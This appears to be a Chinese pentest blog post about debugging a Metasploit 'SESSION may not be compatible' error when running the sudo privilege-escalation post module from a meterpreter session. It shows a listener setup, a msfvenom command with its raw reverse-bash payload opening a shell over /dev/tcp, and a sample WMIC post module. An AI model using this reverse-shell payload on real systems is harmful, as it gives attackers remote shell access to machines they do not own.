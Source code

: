 ```yaml
---
title: 03-msf报错（SESSION may not be compatible）
categories:
- metasploit
tags:
- metasploit
---
```


## 起因：sudo -s提权在msf上一直报错，但是在靶机上是可以成功提权的。

msf有一个模块，叫做`post/multi/manage/sudo`

看过这个模块的源码，就是使用sudo -s来提权的。

为什么会提权失败呢？
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-22-11/4.PNG)

## 环境配置复现，debug
### 设置msf监听
`handler -H 192.168.123.123 -P 6677 -p cmd/unix/reverse_bash`

### 生成反弹shell的载荷
```
msfvenom -p cmd/unix/reverse_bash  lhost=192.168.123.123 lport=6677 -f raw      

0<&165-;exec 165<>/dev/tcp/192.168.123.123/6677;sh <&165 >&165 2>&165
```
### 设置metapreter session
使用上一条命令获得一个`shell cmd/unix`类型的shell以后，可以使用`session -u session的ID` 这种方式，获得一个`meterpreter x86/linux`的session。

使用meterpreter的session，执行`post/multi/manage/sudo`提权载荷，会报错。
```
[!] SESSION may not be compatible with this module.
```
使用`shell cmd/unix`的载荷不会报错。

### 查看源码
```
vi /usr/share/metasploit-framework/modules/post/multi/manage/sudo.rb

在第32行，如果没有meterpreter这一个关键字，那么就只支持shell类型的session

 'SessionTypes'  => [ 'meterpreter', 'shell' ]
```
### 如何写一个msf插件
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::WMIC

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Gather Run Specified WMIC Command',
      'Description'   => %q{ This module will execute a given WMIC command options or read
        WMIC commands options from a resource file and execute the commands in the
        specified Meterpreter session.},
      'License'       => MSF_LICENSE,
      'Author'        => [ 'Carlos Perez <carlos_perez[at]darkoperator.com>'],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('RESOURCE', [false, 'Full path to resource file to read commands from.']),
        OptString.new('COMMAND', [false, 'WMIC command options.']),
      ])
  end

  # Run Method for when run command is issued
  def run
        print_status("Executing command")
        command = wmic_query("useraccount get name")
        puts command
  end
end
```
